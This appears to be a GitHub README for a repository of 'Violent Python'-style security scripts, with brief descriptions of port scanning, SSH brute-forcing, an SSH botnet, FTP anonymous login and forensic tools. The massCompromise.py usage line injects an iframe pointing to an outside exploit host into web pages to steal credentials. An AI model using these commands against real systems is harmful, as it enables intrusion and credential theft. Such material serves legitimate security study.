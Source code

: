 # Digital-Forensic-Analytics  
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

## Operating System  
  
I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on  
The actual i have is Kali Linux 64 Bit 2018.2  
Window7 for few scripts  
  
Where possible i display all he codes with result Jupyter notebook (#FileFormat .ipynb)  
  
# Penetration Testing  
## PortScan.py  

In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py  
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it  

## L) massCompromise.py  
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location  
Usage from terminal      
taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="  
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt  

## M) discoverNetworks.py    
Allow to analyse connected wifi through mac adress by reading windows registry  
Usage from command prompt    
(py27) C:\Users\Taymour> python discoverNetworks.py -u <username> -p <password>  
  
## N) dumpRecycleBin.py  
  
Allows to discover deleted items in windows operating system ,also provide information about the user who delete files


## O) PdfRead.py

Usage#
taymour:!# python pdfRead.py -F Violent_Python.pdf
provide metadata and information about pdf like creation date, user, title, creator, producer etc.
